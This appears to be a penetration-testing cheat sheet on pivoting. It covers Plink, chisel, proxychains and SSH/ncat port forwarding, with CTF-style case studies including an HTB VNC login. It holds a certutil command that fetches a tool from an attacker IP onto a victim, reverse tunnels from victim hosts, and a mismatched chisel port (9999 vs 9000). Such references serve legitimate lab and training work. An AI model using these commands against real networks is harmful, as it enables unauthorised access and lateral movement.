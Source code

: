 - [Windows](#Windows)
- [Linux](#Linux)

# Windows

#### Plink
- Download Plink.exe

- download plink on windows
- cd user/filder
- certutil -urlcache -f http://[your_ip]/plink.exe plink.exe
- edit /etc/ssh/sshd_config
- uncomment PermitRootLogin and set as yes
 
on windows machine 
plink.exe -l root -pw <pass> -R 445:127.0.0.1:445 <your_linux_ip>
  
#### chisel
- Download chisel
https://github.com/jpillora/chisel/releases/tag/v1.7.4


- Run chisel server on your linuxmachine: 
```
./chisel server -p 9999 --reverse -v
```

- Run chisel client on victim windows machine:
```
chisel.exe client <your_linux_ip>:9000 R:widnows_service_port:127.0.0.1:widnows_service_port

e.g:
chisel.exe client 10.10.14.49:9999 R:8888:127.0.0.1:8888
```

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Linux

#### SSH port forwarding
In case exploit can not be run locally on target machine, you can frowarded the port via SSH to your local machine

#### use squid proxy
- proxytunnel -p 192.168.0.115:3128 -d 127.0.0.1:22 -a 1234
#### e.g:
- ssh name@127.0.0.1 -p 1234






### Proxychains 
#### use squid proxy
- nano /etc/proxychains.conf
#### add:
- http 192.168.213.141 3128

#### scan ports via tunnel
- proxychain nmap -sT -p 22 127.0.0.1

#### ssh login via proxychains
- proxychains ssh name@127.0.0.1

### SSH port forwarding
In case exploit can not be run locally on target machine, you can frowarded the port via SSH to your local machine
```
ssh [username]@[victim_ip] -L [your_local_port]:127.0.0.1:[victim_service_port] 

ssh [username]@[victim_ip] -R [your_local_port]:127.0.0.1:[victim_service_port] 
```

Exploit code can be run on local machine

#### case study
##### on victim machine
- check service port *netstat -nl*
- ssh -R 4444:127.0.0.1:3306 root@192.168.100.104

##### on yours kali machine
mysql -u root -h 127.0.0.1 -P 4444

#### case study 2 (TightVNC)
```
- check ps -aux
  result: Xvnc :1 -desktop X -httpd /usr/../tightvnc/classes
- check netstat -an
  result: 127.0.0.1.5901
- port forwarding from local machine
  ssh -L 5901:127.0.0.1:5901 username@10.10.10.84
  pass password
- vncviewer 127.0.0.1:5901 -passwd secret_file_with_password
```

#### case study 3 (htb poison vnc)
```
on your machine:
ssh -L 5902:localhost:5901 charix@10.10.10.84
in second window:
vncviewer -passwd secret 127.0.0.1:5902
```

### Port forwarding via ncat
- ncat -u -l  [port1] -c  'ncat -u -l [port2]'
  - Now all the connections for port [port1] will be forwarded to port [port2]
  
  

